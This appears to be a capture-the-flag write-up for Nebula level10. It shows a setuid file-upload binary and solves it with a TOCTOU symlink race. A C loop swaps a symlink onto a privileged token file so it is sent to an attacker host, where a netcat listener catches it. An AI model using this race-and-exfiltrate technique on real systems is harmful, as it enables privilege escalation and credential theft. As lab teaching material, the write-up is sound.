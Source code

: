 # level10

## Challenge info

The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call.

```
int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```
## Solution

This challenge seems to be a TOCTOU type of race condition because it checks the permissions right away and after many instructions it reads (it is also referenced at NOTES section in the access man page).

The first approach will be creating a script that creates a soft sym link to a dummy file, run the program and put it in the background, change the link and do again until it get access.

Since it takes some lines of code to open the passed file, the exploit hits easily without many tries.

The exploit (at /tmp folder) <b>!!! The & at the end of the system call that execute the script is extremely important otherwise the symlink is changed only after transmission) !!! </b>
```
#include <stdio.h>

int main(){
    int nTrys = 1000;
    system("touch dummy");
    while(nTrys-- > 0){
        system("ln -sf dummy sym");
        system("/home/flag10/flag10 sym $IP &");
        system("ln -sf /home/flag10/token sym");
    }
}
compile: gcc rc.c -o rc
```

Need to listen at IP (at another terminal tab)
```
nc -lvk 18211 > logger
```

Run rc at the first tab
```
./rc 
```

the token 
```
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
su flag10
Password: (token here)
getflag
```


## Flag
```
You have successfully executed getflag on a target account
```
